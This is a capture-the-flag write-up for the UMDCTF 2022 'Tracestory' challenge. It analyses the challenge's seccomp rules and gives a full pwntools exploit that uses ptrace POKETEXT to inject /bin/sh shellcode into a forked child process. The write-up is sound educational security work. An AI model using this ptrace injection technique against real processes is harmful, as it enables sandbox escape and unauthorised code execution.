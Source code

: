 ```yaml
---
title: UMDCTF 2022
date: 2022-03-07
categories: [ctf]
tags: [seccomp, ptrace]
---
```



# Tracestory

> I am trying to figure out the end of this story, but I am not able to read it. Could you help me figure out what it is?
>
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 15148`

# Summary

This is a seccomp challenge where you have to utilize `ptrace` to change behavior of child process.

# Analysis

## Binary Analysis

Looking at `main` function, here are interesting things:

1. Uses seccomp
2. Uses fork
   1. Child process calls function called `read_story()`
   2. Parent process then calls `read_input()` then `setup_seccomp()`
3. Whatever gets written to `read_input()` will eventually be called as function in `var_1020()`

Child is forked off before `seccomp` rules gets applied.
Parent process gets input from user then just executes it. (Memory where they store the user function is mmaped with `xwr` permission)


## Seccomp Rules Analysis
![](/assets/img/2022-03-07-21-24-37.png)

Using `seccomp-tools`, you can dump the seccomp rules

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x18 0xc000003e  if (A != ARCH_X86_64) goto 0026
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x15 0xffffffff  if (A != 0xffffffff) goto 0026
 0005: 0x15 0x13 0x00 0x00000003  if (A == close) goto 0025
 0006: 0x15 0x12 0x00 0x00000004  if (A == stat) goto 0025
 0007: 0x15 0x11 0x00 0x00000005  if (A == fstat) goto 0025
 0008: 0x15 0x10 0x00 0x00000006  if (A == lstat) goto 0025
 0009: 0x15 0x0f 0x00 0x0000000a  if (A == mprotect) goto 0025
 0010: 0x15 0x0e 0x00 0x0000000c  if (A == brk) goto 0025
 0011: 0x15 0x0d 0x00 0x00000015  if (A == access) goto 0025
 0012: 0x15 0x0c 0x00 0x00000018  if (A == sched_yield) goto 0025
 0013: 0x15 0x0b 0x00 0x00000020  if (A == dup) goto 0025
 0014: 0x15 0x0a 0x00 0x00000021  if (A == dup2) goto 0025
 0015: 0x15 0x09 0x00 0x00000038  if (A == clone) goto 0025
 0016: 0x15 0x08 0x00 0x0000003c  if (A == exit) goto 0025
 0017: 0x15 0x07 0x00 0x0000003e  if (A == kill) goto 0025
 0018: 0x15 0x06 0x00 0x00000050  if (A == chdir) goto 0025
 0019: 0x15 0x05 0x00 0x00000051  if (A == fchdir) goto 0025
 0020: 0x15 0x04 0x00 0x00000060  if (A == gettimeofday) goto 0025
 0021: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0025
 0022: 0x15 0x02 0x00 0x00000066  if (A == getuid) goto 0025
 0023: 0x15 0x01 0x00 0x00000068  if (A == getgid) goto 0025
 0024: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0026
 0025: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0026: 0x06 0x00 0x00 0x00000000  return KILL
```

Simplified view of above rules

## allowed syscalls

```
 close
 stat
 fstat
 lstat
 mprotect
 brk
 access
 sched_yield
 dup
 dup2
 clone
 exit
 kill
 chdir
 fchdir
 gettimeofday
 ptrace
 getuid
 getgid
 exit_group
```

Looking at these syscall, only write primitive syscall was `ptrace` and also the challenge is called `trace_story` so it is very obvious that we would need to use `ptrace` eventually.

# Solution

We can use `ptrace` to overwrite child's text segment with our assembly code. Child process executes random code in a infinite loop so we can just overwrite the code in the beginning of the infinite loop.

Usual process for using `ptrace` function goes as follow
Attach to child process `ptrace(PTRACE_ATTACH, CHILD_PID, 0, 0)` -> Wait for child to attach `wait(0)` -> Write to child's text segment to change the code by `ptrace(PTRACE_POKETEXT, CHILD_PID, CODE_ADDRESS, 8_BYTES_OF_CODE)` -> Detach from child `ptrace(PTRACE_DETACH, CHILD_PID, 0, 0)`

Problem is we don't have `wait()` in our syscall. So we can probably use `gettimeofday` and calculate our time that way but as great Ken Thompson said once, `When in doubt, use brute force.` So I will just attach -> write_text -> detach -> go back to beginning and repeat.

## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('trace_story')
context.terminal = ['tmux', 'splitw', '-h']



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(args.HOST, int(args.PORT))
    else:
        return process([exe.path] + argv, *a, **kw)



gdbscript = f'''
tbreak main
set follow-fork-mode parent
# set detach-on-fork off

b *0x401907
# b *0x401789
continue
'''.format(**locals())

# -- Exploit goes here --
"""
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
"""

io = start()


io.recvuntil("pid: ")
pid = int(io.recvline().strip())
print(f'pid is {pid}')




payload = "begin:"
payload += shellcraft.ptrace(constants.linux.PTRACE_ATTACH, pid, 0, 0)

binsh = asm(shellcraft.sh())
start_addr = 0x401789

for i in range(0, int(len(binsh)/8)):
    load_shit = u64(binsh[i * 8:8+(i*8)])
    payload += shellcraft.ptrace(constants.linux.PTRACE_POKETEXT, pid, start_addr + (i * 8), load_shit)

payload += shellcraft.ptrace(constants.linux.PTRACE_DETACH, pid, 0, 0)

payload += """
jmp begin
"""

io.sendlineafter(b'Input: \n', asm(payload))

io.interactive()
```
